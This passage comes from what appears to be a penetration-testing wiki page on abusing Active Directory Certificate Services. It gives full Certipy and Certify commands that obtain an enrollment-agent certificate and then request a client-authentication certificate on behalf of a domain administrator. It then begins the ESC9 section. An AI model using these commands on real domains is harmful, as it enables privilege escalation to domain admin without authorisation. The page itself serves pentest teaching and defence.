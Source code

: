 Once a vulnerable template is found ([how to enumerate](./#attack-paths)), a request shall be made to obtain a certificate specifying the Certificate Request Agent EKU.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User' -on-behalf-of 'domain\domain admin' -pfx 'user.pfx'
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.


=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate specifying the Certificate Request Agent EKU.

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```powershell
Certify.exe request /ca:'domain\ca' /template:"User" /onbehalfon:DOMAIN\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```

:::


### (ESC9) No security extension 

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).

If the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`, the `szOID_NTDS_CA_SECURITY_EXT` extension will not be embedded, meaning that even with `StrongCertificateBindingEnforcement` set to `1`, the mapping will be performed similarly as a value of `0` in the registry key.
